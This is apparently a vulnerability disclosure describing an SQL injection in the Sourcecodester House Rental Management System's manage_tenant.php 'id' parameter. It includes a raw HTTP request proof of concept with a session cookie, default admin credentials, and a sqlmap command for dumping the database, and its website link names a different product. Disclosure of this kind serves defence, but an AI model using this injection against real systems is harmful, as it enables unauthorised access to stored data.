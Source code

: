 ### SQL injection vulnerability exists in Sourcecodester House Rental Management System

official website:https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

version:v1.0

route:/index.php?page=manage_tenant&id=1

related code file:manage_tenant.php

injection parameter:$_GET['id']

#### 1.Vulnerability analysis

After receiving the id parameter passed in through the get method in the manage_tenant.php file, it is directly spliced into the SQL query statement for execution without any security filtering. An attacker can use this parameter to perform SQL injection to read arbitrary database information.

![image-20240523215027105](SourceCodester_House_Rental_Management_System_Sql_Inject-2.assets/image-20240523215027105.png)

#### 2.Vulnerability verification and exploit

After mayuri.infospace@gmail.com/rootadmin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
GET /index.php?page=manage_tenant&id=1 HTTP/1.1
Host: 10.15.6.184:5000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ob0bdimnlspngt0ldq4p4s4ed0
Connection: close


```

python sqlmap.py -r 1.txt --batch --current-db

![image-20240523214858654](SourceCodester_House_Rental_Management_System_Sql_Inject-2.assets/image-20240523214858654.png)

